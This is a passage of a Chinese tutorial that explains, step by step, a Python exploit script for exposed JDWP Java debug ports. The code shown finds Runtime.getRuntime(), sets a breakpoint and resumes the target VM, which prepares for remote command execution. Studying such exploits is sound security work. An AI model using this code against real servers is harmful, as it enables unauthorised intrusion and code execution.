 接下来看第二部分代码

```python
# 2. get getRuntime() meth reference
jdwp.get_methods(runtimeClass["refTypeId"])
getRuntimeMeth = jdwp.get_method_by_name("getRuntime")
if getRuntimeMeth is None:
    print ("[-] Cannot find method Runtime.getRuntime()")
    return False
print ("[+] Found Runtime.getRuntime(): id=%x" % getRuntimeMeth["methodId"])
```

首先调用get\_methods方法，在这个方法中会向目标JVM发送`(ReferenceType, Methods)`命令根据Runtime类的refTypeId获取类中所有方法的信息。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9abd1398b340b1467869037839d521a2c0df1385.png)

接下来调用`get_method_by_name("getRuntime")`方法，用于从获取到的所有方法信息中提取getRuntime方法的信息

接下来看第三部分代码，调用send\_event方法用于在频繁调用的方法上设置断点，当我们没有指定断点时，默认是在`java.net.ServerSocket.accept()`方法加上断点。设置在`java.lang.String.indexOf()`方法上加断点脚本执行会更快速

```python
# 3. setup breakpoint on frequently called method
c = jdwp.get_class_by_name( args.break_on_class )
if c is None:
    print("[-] Could not access class '%s'" % args.break_on_class)
    print("[-] It is possible that this class is not used by application")
    print("[-] Test with another one with option `--break-on`")
    return False

jdwp.get_methods( c["refTypeId"] )
m = jdwp.get_method_by_name( args.break_on_method )
if m is None:
    print("[-] Could not access method '%s'" % args.break_on)
    return False

loc = chr( TYPE_CLASS )
loc+= jdwp.format( jdwp.referenceTypeIDSize, c["refTypeId"] )
loc+= jdwp.format( jdwp.methodIDSize, m["methodId"] )
loc+= struct.pack(">II", 0, 0)
data = [ (MODKIND_LOCATIONONLY, loc), ]
rId = jdwp.send_event( EVENT_BREAKPOINT, *data )
print ("[+] Created break event id=%x" % rId)
```

接下来看第四部分代码，调用resumevm方法用于恢复被挂起或停止的程序运行，然后等待程序运行至断点处，当断点触发时，我们就可以得到被调试方法所运行的线程ID，最后调用clear\_event方法清除断点

```python
# 4. resume vm and wait for event
jdwp.resumevm()

print ("[+] Waiting for an event on '%s'" % args.break_on)
while True:
    buf = jdwp.wait_for_event()
    ret = jdwp.parse_event_breakpoint(buf, rId)
    if ret is not None:
        break

rId, tId, loc = ret
print ("[+] Received matching event from thread %#x" % tId)

jdwp.clear_event(EVENT_BREAKPOINT, rId)
```
